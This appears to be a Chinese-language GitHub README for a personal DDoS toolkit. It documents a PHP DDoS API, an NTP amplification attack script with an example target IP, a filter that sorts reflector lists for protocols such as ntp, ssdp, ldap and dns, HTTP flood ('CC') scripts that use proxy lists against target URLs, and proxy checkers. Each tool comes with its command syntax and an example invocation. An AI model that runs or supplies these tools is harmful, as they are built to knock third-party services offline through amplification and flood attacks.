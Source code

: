# 自用cc脚本

DDoS API - PHP

支持 秘钥 / 自定义方法

需要安装 PHP-SSH2 扩展

http://127.0.0.1/api.php?key=秘钥&host=IP地址&port=端口&time=时间&method=方法


	
DDoS Concurrent API - PHP PLUS

支持 秘钥 / 自定义方法 / 并发 / 自定义命令

需要安装 PHP-SSH2 扩展

http://127.0.0.1/api.php?key=秘钥&host=IP地址&port=端口&time=时间&method=方法&max=并发


	
NTP注入器

已去除 "请勿泄露" 字符

./ntpfill ntp.txt 4000

./ntpfill 列表文件 注入次数



NTP攻击脚本 (汉化)

./ntp <目标IP> <端口> <列表文件> <线程> <pps限制器|默认-1> <时间(秒)>

示例：./ntp 117.27.239.1 80 cnntp.txt 100 -1 60



EasyFilter(简易过滤) 1.0

完全汉化，已删除后门

格式

./filter <输入> <输出> <协议> <最小字节> <输出格式>

示例

./filter ntpscan.txt ntp.txt ntp 400 [ip]

./filter ssdpscan.txt ssdp.txt ssdp 200 [ip][space][bytes]

支持协议

chargen, ntp, quake, ssdp, ldap, dns, snmp, mdns, tftp, portmap, netbios

输出格式变量

[space], [ip], [bytes]



『CC+』

基于 cc.js 的美化版CC脚本

SH

./cc+.sh 线程 列表文件 方法 时间(秒) 目标(URL)

格式

node cc+.js 列表文件 方法 时间(秒) 目标(URL)

示例

node cc+.js proxy.txt GET 60 http://example.com



『CC+PLUS+』

格式

./cc+.sh 线程 列表文件 方法 速率 时间(秒) 目标(URL) 随机参数[开:t/关:f]

示例

./cc+.sh 100 proxy.txt GET 10 60 http://example.com t



『CheckChinaProxyIP』1.4

验证中国代理IP Golang 脚本

示例

./ccpip proxy.txt cn.txt 1000 5

格式

./ccpip 输入 输出 协程(线程) 超时(秒)

运行脚本前，请先执行命令

ulimit -n 999999



『ProxyFiltering』3.3

公益版 HTTP/HTTPS 代理过滤脚本

协议

http https

示例

./pf http 15 1000 origin.txt proxy.txt

格式

./pf 检测协议 超时(秒) 线程 输入 输出 [可选:检测地址(返回请求IP)]

执行脚本前，请输入此命令解除系统限制

ulimit -n 999999

更新日志

- pfbot的改版

- 增加验证节点 (验证更准确)


